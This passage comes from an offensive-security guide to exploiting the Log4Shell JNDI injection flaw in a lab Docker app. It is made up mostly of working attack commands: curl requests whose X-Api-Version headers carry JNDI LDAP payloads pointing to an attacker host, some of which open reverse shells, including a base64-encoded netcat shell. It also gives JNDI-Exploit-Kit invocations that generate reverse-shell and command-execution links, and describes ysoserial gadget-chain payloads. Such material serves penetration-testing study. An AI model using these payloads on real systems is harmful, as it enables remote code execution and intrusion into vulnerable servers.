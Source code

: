 So, in our example, we already have that docker vulnerable app running. To attack it:

```bash
# Create a file inside of th vulnerable host:
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

# Get a reverse shell (only unix)
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/ReverseShell/172.17.0.1/4444}'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.17.0.1:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMSA0NDQ0IC1lIC9iaW4vc2gK}'
```

When sending the attacks you will see some output in the terminal where you executed **JNDIExploit-1.2-SNAPSHOT.jar**.

**Remember to check `java -jar JNDIExploit-1.2-SNAPSHOT.jar -u` for other exploitation options. Moreover, in case you need it, you can change the port of the LDAP and HTTP servers.**

### RCE - JNDI-Exploit-Kit <a href="#rce__jndiexploitkit_33" id="rce__jndiexploitkit_33"></a>

In a similar way to the previous exploit, you can try to use [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) to exploit this vulnerability.\
You can generate the URLs to send to the victim running:

```bash
# Get reverse shell in port 4444 (only unix)
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -S 172.17.0.1:4444

# Execute command
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 172.17.0.1:1389 -J 172.17.0.1:8888 -C "touch /tmp/log4shell"
```

_This attack using a custom generated java object will work in labs like the **THM solar room**. However, this won’t generally work (as by default Java is not configured to load remote codebase using LDAP) I think because it’s not abusing a trusted class to execute arbitrary code._

### RCE - JNDI-Injection-Exploit-Plus

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus) is another tool for generating **workable JNDI links** and provide background services by starting RMI server,LDAP server and HTTP server.\


### RCE - ysoserial & JNDI-Exploit-Kit

This option is really useful to attack **Java versions configured to only trust specified classes and not everyone**. Therefore, **ysoserial** will be used to generate **serializations of trusted classes** that can be used as gadgets to **execute arbitrary code** (_the trusted class abused by ysoserial must be used by the victim java program in order for the exploit to work_).

Using **ysoserial** or [**ysoserial-modified**](https://github.com/pimps/ysoserial-modified) you can create the deserialization exploit that will be downloaded by JNDI:
